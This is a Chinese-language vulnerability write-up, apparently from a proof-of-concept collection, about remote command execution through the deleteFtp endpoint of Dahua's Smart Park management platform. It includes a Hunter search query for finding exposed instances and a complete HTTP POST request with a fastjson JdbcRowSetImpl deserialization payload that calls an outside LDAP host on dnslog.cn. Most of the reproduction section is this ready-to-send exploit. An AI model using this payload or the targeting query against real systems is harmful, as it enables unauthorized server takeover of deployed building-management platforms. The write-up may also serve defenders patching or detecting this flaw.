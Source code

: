 # 大华智慧园区综合管理平台deleteFtp 接口远程命令执行

# 一、漏洞简介
大华智慧园区综合管理平台是一个集智能化、信息化、网络化、安全化为一体的智慧园区管理平台，旨在为园区提供一站式解决方案，包括安防、能源管理、环境监测、人员管理、停车管理等多个方面。大华智慧园区综合管理平台deleteFtp 接口远程命令执行，攻击者可通过该漏洞获取服务器权限。

# 二、影响版本
+ 大华智慧园区综合管理平台

# 三、资产测绘
+ hunter:`app.name="Dahua 大华 智慧园区管理平台"`  
![1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113.png](./img/pOtHG7nJ8gFl98LB/1691828229241-1a7a5e8c-d5e6-4852-b428-047c6c955113-790928.png)
+ 登录页面：

![1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138.png](./img/pOtHG7nJ8gFl98LB/1691828319702-85171e4b-cb4b-4826-a654-3c8859b17138-069976.png)

# 四、漏洞复现
<font style="color:rgb(51, 51, 51);">deleteFtp接口存在命令执行漏洞，可执行LDAP解析等。</font>

```plain
POST /CardSolution/card/accessControl/swingCardRecord/deleteFtp HTTP/1.1
Host: xx.xx.xx.xx
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1985.67 Safari/537.36
Connection: close
Content-Length: 243
Content-Type: application/json
Accept-Encoding: gzip, deflate, br

{"ftpUrl":{"e":{"@type":"java.lang.Class","val":"com.sun.rowset.JdbcRowSetImpl"},"f":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://tcpj5b.dnslog.cn","autoCommit":true}}}
```

![1701837472770-9787e19a-53f3-4259-a324-e80ff36b084b.png](./img/pOtHG7nJ8gFl98LB/1701837472770-9787e19a-53f3-4259-a324-e80ff36b084b-860944.png)

![1701837487031-7b43ed54-fcc2-4079-9e5a-7d3bce88fb2a.png](./img/pOtHG7nJ8gFl98LB/1701837487031-7b43ed54-fcc2-4079-9e5a-7d3bce88fb2a-784274.png)



> 更新: 2024-02-29 23:57:18  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/il26hyyl70fmzm9e>